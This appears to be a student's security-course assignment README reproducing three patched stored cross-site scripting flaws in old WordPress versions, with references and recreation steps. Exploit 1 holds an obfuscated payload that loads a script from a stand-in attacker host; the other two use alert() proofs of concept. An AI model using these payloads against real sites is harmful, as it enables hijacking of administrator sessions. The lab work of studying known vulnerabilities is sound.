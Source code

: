 # CyberSecurityWeek7
My assignment for week 7

Exploit 1:

[!] Title: WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/7945
    Reference: http://klikki.fi/adv/wordpress2.html
    Reference: http://packetstormsecurity.com/files/131644/
    Reference: https://www.exploit-db.com/exploits/36844/
[i] Fixed in: 4.2.1

Source Code:

```html
<a title='xxx onmouseover=eval(unescape(/var%20a%3Ddocument.createElement%28%27script%27%29%3Ba.setAttribute%28%27src%27%2C%27https%3A%2f%2fattacker.site%2fexploit.js%27%29%3Bdocument.head.appendChild%28a%29/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
```

Guide for recreation:

I made a comment on a post not as an admin using XSS. 
The comment content had to be greater than 64kb in order to work. 
After the comment was submitted, I approved the comment as the admin, and went to view the post with the comments. 
On the load of the page the exploit was ran. This vulnerability was patched in WordPress 4.2.1.


Exploit 2:

[!] Title: WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8111
    Reference: https://wordpress.org/news/2015/07/wordpress-4-2-3/
    Reference: https://twitter.com/klikkioy/status/624264122570526720
    Reference: https://klikki.fi/adv/wordpress3.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623
[i] Fixed in: 4.2.3

Source Code:

```html
<a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>
```

Guide for recreation:

I made a post as a user with Author privileges using the source code as the content of the post. 
I then signed in as an admin and when viewing the post, the script ran on mouseover of the post. 
This vulnerability was patched in WordPress 4.2.3.


Exploit 3:

[!] Title: WordPress <= 4.3 - Authenticated Shortcode Tags Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8186
    Reference: https://wordpress.org/news/2015/09/wordpress-4-3-1/
    Reference: http://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/
    Reference: http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5714
[i] Fixed in: 4.2.5

Source Code: 
                          
```html
TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">Click me</a>
```

Guide for recreation:
I made a post as a user with Author privileges using the source code for the content of the post. 
I then signed in as an admin and then when going to click the link, the script runs on mouseover instead of onclick.
This vulnerability was patched in WordPress 4.2.5.
